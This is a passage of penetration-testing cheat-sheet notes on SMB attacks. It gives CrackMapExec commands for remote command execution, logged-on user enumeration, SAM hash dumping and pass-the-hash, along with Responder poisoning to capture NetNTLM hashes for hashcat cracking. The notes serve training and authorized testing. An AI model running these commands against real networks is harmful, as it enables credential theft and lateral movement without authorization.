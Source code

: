 `impacket-smbexec` and `impacket-atexec` follow the same rules.

##### CrackMapExec (CME)
Advantage is run a command on multiple hosts at the same time.

```shell-session
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

| Switch          | Desc                                        |
| --------------- | ------------------------------------------- |
| `-u`            | username                                    |
| `-p`            | password                                    |
| `-x` or `-X`    | execute this command with cmd or PowerShell |
| `--exec-method` | if not defined, atexec will run             |
###### Enumerating Logged-on Users
This command will check for all logged on users for each machine in the 10.10.110.0/24 range.
```shell-session
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

###### Extract Hashes from SAM
Useful for:
- Authenticate as another user.
- Password Cracking, if we manage to crack the password, we can try to reuse the password for other services or accounts.
- Pass The Hash

```shell-session
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

###### Pass-the-Hash (PtH)
If we get the NTLM hash but can't crack we can use `Impacket`, `SMBMap`, or `CrackMapExec`.

*CrackMapExec example:*
```shell-session
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

###### Forced Authentication Attacks
Fake an SMB server to collect users' [NetNTLM v1/v2 hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)

**Tool:** [Responder](https://github.com/lgandx/Responder)
**Desc:** LLMNR, NBT-NS, and MDNS poisoner. It will find LLMNR and NBT-NS traffic and respond to a victim, capturing their hashes.

*Example:*
```shell-session
responder -I <interface name>
```

All responder's captured hashes are located in `/usr/share/responder/logs/`.
We can crack hashes using `-m 5600` in `hashcat`.
